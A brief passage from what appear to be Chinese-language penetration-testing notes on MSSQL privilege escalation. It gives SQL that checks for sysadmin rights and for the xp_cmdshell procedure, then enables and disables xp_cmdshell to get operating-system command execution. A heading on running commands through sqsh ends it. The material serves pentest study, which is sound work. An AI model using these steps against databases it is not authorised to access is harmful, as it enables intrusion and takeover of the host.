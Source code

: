 ![image.png](assets/1706232584-a49af7249ade874c7348ebf1a121ba3a.png)

```php
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 关闭 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
```

### 使用 sqsh 执行命令
